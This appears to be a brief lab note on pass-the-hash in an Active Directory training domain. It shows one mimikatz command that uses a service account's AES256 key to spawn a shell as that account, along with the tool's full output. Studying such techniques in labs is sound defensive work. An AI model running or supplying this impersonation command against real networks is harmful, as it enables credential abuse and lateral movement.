

# PTH



```
C:\Windows\system32>C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /run:cmd" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /run:cmd
user    : svcadmin
domain  : dollarcorp.moneycorp.local
program : cmd
impers. : no
AES256  : 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
  |  PID  3700
  |  TID  3496
  |  LSA Process is now R/W
  |  LUID 0 ; 487698390 (00000000:1d11afd6)
  \_ msv1_0   - data copy @ 000001D2F02B3870 : OK !
  \_ kerberos - data copy @ 000001D2F02A38E8
   \_ aes256_hmac       OK
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       -> null
   \_ rc4_hmac_old      -> null
   \_ rc4_md4           -> null
   \_ rc4_hmac_nt_exp   -> null
   \_ rc4_hmac_old_exp  -> null
   \_ *Password replace @ 000001D2EFD8F768 (32) -> null

mimikatz(commandline) # exit
Bye!

```
